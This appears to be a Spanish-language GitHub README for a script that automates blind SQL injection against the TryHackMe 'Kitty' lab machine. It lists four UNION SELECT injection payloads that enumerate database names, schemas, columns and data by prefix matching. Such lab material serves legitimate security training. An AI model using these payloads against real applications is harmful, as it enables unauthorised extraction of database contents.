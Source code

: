 # Sqli_KittyTHM
Script de automatizacion de maquina kitty de tryhackme
Modificar ip y querys dependiendo lo que se vaya a enumerar
Querys que use
' UNION SELECT 1,2,3,4 WHERE database() LIKE BINARY 'a%' -- -
' UNION SELECT 1, schema_name, 3, 4 FROM information_schema.schemata WHERE schema_name LIKE 'a%' -- -
' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_schema = '{nombre}' and table_name = '{nombre}' and column_name LIKE 'ui%' -- -
' UNION SELECT 1, {nombre}, 3, 4 FROM {nombre}.{nombre} WHERE {nombre} LIKE 'l%' -- -
